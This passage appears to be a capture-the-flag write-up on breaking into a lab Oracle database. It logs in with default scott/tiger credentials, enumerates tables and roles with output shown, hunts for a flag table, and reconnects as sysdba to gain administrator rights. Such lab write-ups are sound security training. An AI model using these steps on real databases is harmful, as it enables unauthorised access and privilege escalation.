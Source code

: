Let’s try to connect:

```bash
sqlplus scott/tiger@10.10.10.82:1521/XE
```

We are in.

- **List Tables**:
    
    ```sql
    SELECT table_name FROM user_tables;  -- Current user’s tables
    
    DEPT
    EMP
    BONUS
    SALGRADE
    
    SELECT * FROM DEPT;
        DEPTNO DNAME          LOC
    ---------- -------------- -------------
            10 ACCOUNTING     NEW YORK
            20 RESEARCH       DALLAS
            30 SALES          CHICAGO
            40 OPERATIONS     BOSTON
            
            
    SELECT * FROM EMP;
    
    SELECT * FROM BONUS;
    
    SELECT * FROM SALGRADE;
    
    SELECT * FROM user_role_privs;
    
    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SCOTT                          CONNECT                        NO  YES NO
    SCOTT                          RESOURCE                       NO  YES NO
    
    ```
    
- **Search for Flag**:
    
    ```sql
    SELECT * FROM FLAG_TABLE;  -- Replace with suspected table name
    SELECT column_name FROM user_tab_columns WHERE column_name LIKE '%FLAG%';
    
    ```
    

Let’s see if we can connect to oracle db as the db adminsitrator:

```bash
sqlplus scott/tiger@10.10.10.82:1521/XE as sysdba

#recheck our privileges
SELECT * FROM user_role_privs;

#we have all the priv now
```
